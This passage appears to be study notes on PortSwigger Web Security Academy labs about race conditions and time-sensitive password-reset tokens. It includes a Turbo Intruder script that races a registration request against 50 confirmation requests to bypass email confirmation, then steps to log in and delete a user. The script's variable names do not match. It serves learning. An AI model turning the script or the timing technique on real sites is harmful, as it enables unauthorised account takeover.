 ```                         
- Open the gate for all the requests in each attempt at the same time.
- The resulting script should look something like this:
```
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    confirmationRequest = '''POST /confirm?token[]= HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: phpsessionid=YOUR-SESSION-TOKEN
Content-Length: 0

'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'Beejay' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```
- Launch the attack.
- In the results table, sort the results by the Length column.
- If the attack was successful, you should see one or more 200 responses to your confirmation request containing the message Account registration for user ```<USERNAME>``` successful.
- Make a note of the username from one of these responses. If you used the example script above, this will be something like User4.
- In the browser, log in using this username and the static password you used in the registration request.
- Access the admin panel and delete carlos to solve the lab.


# Time-sensitive attacks
- Sometimes you may not find race conditions, but the techniques for delivering requests with precise timing can still reveal the presence of other vulnerabilities.
- One such example is when high-resolution timestamps are used instead of cryptographically secure random strings to generate security tokens.
- Consider a password reset token that is only randomized using a timestamp. 
- In this case, it might be possible to trigger two password resets for two different users, which both use the same token. 
- All you need to do is time the requests so that they generate the same timestamp.

# Lab: Exploiting time-sensitive vulnerabilities
- This lab contains a password reset mechanism. 
- Although it doesn't contain a race condition, you can exploit the mechanism's broken cryptography by sending carefully timed requests.
- To solve the lab:
- Identify the vulnerability in the way the website generates password reset tokens.
```